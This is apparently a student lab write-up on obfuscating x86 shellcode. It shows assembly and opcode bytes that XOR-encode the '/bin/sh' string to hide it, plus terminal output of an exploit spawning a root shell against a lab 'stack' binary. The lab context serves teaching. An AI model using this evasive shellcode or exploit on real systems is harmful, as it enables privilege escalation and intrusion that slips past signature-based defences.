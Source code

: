 ## Task 5: Shellcode obfuscation

### Explain different ways of constructing a shellcode that launches a shell
We can break up the string "/bin/sh" into two values such that when the values are xored during execution, they will return the intended "//sh" and "/bin" strings. This way, the string "/bin/sh" is not hardcoded into the shellcode array.

### Write an obfuscated shellcode that does not contain "bin/sh" string
You will need to also explain how you generate the shellcode and the logic behind it.

To carry out the idea described in 5.1, I first converted the shellcode into assembly code:

```
mov ecx, 0x78563412		; put randomly selected value into ecx
mov ebx, 0x10251b3d		; put a value into ebx, that will give us 68732f2f when xored with ecx. 68732f2f is our "//sh"
xor ebx, ecx			    ; xor ecx and ebx, to give us 68732f2f in ebx
push ebx				      ; push ebx(68732f2f) onto the stack

mov ebx, 0x163f563d		; put a value into ebx, that will give us 6e69622f when xored with ecx. 6e69622f is our "/bin"
xor ebx, ecx			    ; xor ecx and ebx, to give us 6e69622f in ebx
push ebx				      ; push ebx(6e69622f) onto the stack
```

Next, I converted the assembly code into hex opcodes using an assembler. The result is:

```
"\xb9\x12\x34\x56\x78"		/* mov ecx, 0x78563412 */
"\xbb\x3d\x1b\x25\x10"		/* mov ebx, 0x10251b3d */
"\x31\xcb"					      /* xor ebx, ecx */
"\x53"						        /* push ebx */
"\xbb\x3d\x56\x3f\x16"		/* mov ebx, 0x163f563d */
"\x31\xcb"					      /* xor ebx, ecx */
"\x53"						        /* push ebx */
```

Finally, we replace the hardcoded "/bin/sh" in the shellcode to use our newly generated obfuscated string.

```
"\x68""//sh"				     /* pushl $0x68732f2f */
"\x68""/bin"				     /* pushl $0x6e69622f */
```

is replaced with the newly generated hex opcodes.


## Output
```
$ sudo execstack -s stack
$ gcc -o exploit_obfuscated exploit_obfuscated.c
$ ./exploit_obfuscated
$ ./stack
#   
# whoami
root
```
